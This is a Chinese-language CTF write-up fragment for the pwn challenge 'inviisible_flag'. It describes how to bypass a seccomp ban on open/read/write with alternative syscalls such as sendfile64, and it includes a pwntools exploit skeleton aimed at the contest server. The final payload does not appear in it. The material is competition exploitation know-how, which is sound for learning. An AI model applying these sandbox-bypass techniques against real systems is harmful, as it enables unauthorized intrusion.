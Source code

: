 ## inviisible_flag

> 禁止了orw的orw 我们直接使用平替函数 <br>[新建标签页 (mebeim.net)](https://syscalls.mebeim.net/?table=x86/64/x64/v6.5)推荐这个网站进行查看有哪些函数和传参规范

- 先开始想复杂了 想成了利用retfq来转化为32位绕过open等函数的禁止 参考强网杯的shellcode[第五届强网杯 Pwn - shellcode - Bugku CTF](https://ctf.bugku.com/writeup/detail/id/429.html)还是学到了东西 甚至去想办法触发新的mmap函数来获取一个低地址的可执行区域 然后把shellcode copy过去执行 因为refq不支持跳转超过四字节的地址 结果发现想复杂了 这里保留了原本的构思代码
- tips:`sendfile64`(调用号:0x28)可以直接让一个文件描述符的内容输出到另一个文件描述符上非常适合平替这次的write函数

```python
from pwn import *
context(log_level='debug')
context(os='linux')
context.terminal = ['byobu', 'sp', '-h']

# shellcode_copy = asm(
# '''
# copy_loop:
# cmp rcx, 0
# je end_copy                
# mov al, [rsi]              
# mov [rdi], al               
# inc rsi                    
# inc rdi                    
# dec rcx                     
# jmp copy_loop
# end_copy:       
# '''
# ,arch="amd64")
file_name = "./vuln"
url = "xyctf.top"
port =35002

elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b *main+181")
# b 0x114514061 
# p = gdb.debug(file_name,"b *0x114514061")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
# ru(b"show your magic again\n")
# # retfq 等效为
# # pop IP
# # pop CS

# # retfq无法跳转4字节以上的地址

# # 尝试fork一个新进程
# # puts函数
# # 0x114514000
# # \x00 \x40 \x51 \x13  cs:\x01

```
